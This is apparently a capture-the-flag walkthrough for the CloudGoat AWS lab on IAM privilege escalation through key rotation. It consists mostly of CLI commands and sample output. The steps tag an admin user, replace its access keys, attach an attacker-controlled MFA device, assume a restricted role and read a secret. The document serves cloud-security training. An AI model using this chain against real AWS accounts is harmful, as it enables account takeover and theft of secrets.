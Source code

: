 # IAM Privecs by Key Rotation Cheat Sheet

```bash
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=RjW4jK6hMm....
```

Enumerate the credentials

```bash
aws iam list-user-policies --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id>
# SelfManageAccess
# TagResources

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name SelfManageAccess

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name TagResources
```

With the permissions we can tag and change access keys for users with the tag `developer=true`.
- Looking at the IAM users there is a developer and an admin user.
- The admin user has permissions to assume a role `cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>` which allows it to retrieve the secret flag.

```bash
aws iam tag-user --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --tags '{"Key":"developer","Value":"true"}'

aws iam list-access-keys --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>

aws iam delete-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --access-key-id <ACCESS_KEY_ID>

aws iam create-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>
# {
#     "AccessKey": {
#         "UserName": "admin_iam_privesc_by_key_rotation_<cloudgoat_id>",
#         "AccessKeyId": "AKIA....",
#         "Status": "Active",
#         "SecretAccessKey": "GQg+9Me8LmB+099t6....",
#         "CreateDate": "2023-09-04T19:20:02+00:00"
#     }
# }
```

With the "admin" users credentials we can assume the role it has access to...

```bash
export AWS_ACCESS_KEY_ID=AKIA....
export AWS_SECRET_ACCESS_KEY=GQg+9Me8LmB....

aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret
# Access Denied
```

...the role can only be assumed when using multi-factor authentication

Lets create a new virtual mfa device, back in the manager user shell/profile.

```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name cloudgoat_virtual_mfa --outfile QRCode.png --bootstrap-method QRCodePNG
# "SerialNumber": "arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa"
```

Scan the QR code in the file `QRCode.png`. For the following command put in two consecutive tokens. 

```bash
aws iam enable-mfa-device \
    --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> \
    --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa \
    --authentication-code1 <MFA Code #1> \
    --authentication-code2 <MFA Code #2>
```

Now we can assume the role since were using mfa. Switch back to the shell/profile that has the admin users credentials.

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa --token-code <TOKEN_CODE>
# {
#     "Credentials": {
#         "AccessKeyId": "ASIA...",
#         "SecretAccessKey": "Mm8ij9L8eV.....",
#         "SessionToken": "IQoJb3JpZ2luX2VjE..................",
#         "Expiration": "2023-09-04T20:36:44+00:00"
#     },
#     "AssumedRoleUser": {
#         "AssumedRoleId": "AROAZ6IIT5XU5WXMGTWEW:cloudgoat_secret",
#         "Arn": "arn:aws:sts::0123456789:assumed-role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>/cloudgoat_secret"
#     }
# }
```

In a new shell retrieve the secret

```bash
export AWS_ACCESS_KEY_ID=ASIA....
export AWS_SECRET_ACCESS_KEY=Mm8ij9L8eV....
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjE..................

aws secretsmanager list-secrets

aws secretsmanager get-secret-value --secret-id cg_secret_iam_privesc_by_key_rotation_<cloudgoat_id> | grep flag
# flag{...}
```
